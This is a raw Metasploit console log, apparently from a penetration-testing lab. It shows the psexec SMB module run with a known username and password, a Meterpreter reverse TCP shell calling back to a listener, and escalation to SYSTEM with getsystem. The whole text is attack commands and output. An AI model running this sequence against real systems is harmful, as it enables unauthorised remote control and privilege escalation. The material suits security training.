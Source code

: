 ```console 
  108  exploit/windows/smb/psexec                                      1999-01-01       manual     No     Microsoft Windows Authenticated User Code Execution

msf5 auxiliary(scanner/smb/smb_login) > use 108
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) > setg RHOSTS 10.10.99.129
msf5 exploit(windows/smb/psexec) > setg SMBPass Password1
msf5 exploit(windows/smb/psexec) > setg SMBUser ballen
msf5 exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                10.10.99.128     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                 ADMIN$           yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass               Password1        no        The password for the specified username
   SMBUser               ballen           no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.196.135    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 10.10.196.135:4444 
[*] 10.10.99.128:445 - Connecting to the server...
[*] 10.10.99.128:445 - Authenticating to 10.10.99.128:445 as user 'ballen'...
[*] 10.10.99.128:445 - Selecting PowerShell target
[*] 10.10.99.128:445 - Executing the payload...
[+] 10.10.99.128:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (176195 bytes) to 10.10.99.128
[*] Meterpreter session 1 opened (10.10.196.135:4444 -> 10.10.99.128:54360) at 2021-09-26 12:30:45 +0100

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : ACME-TEST
```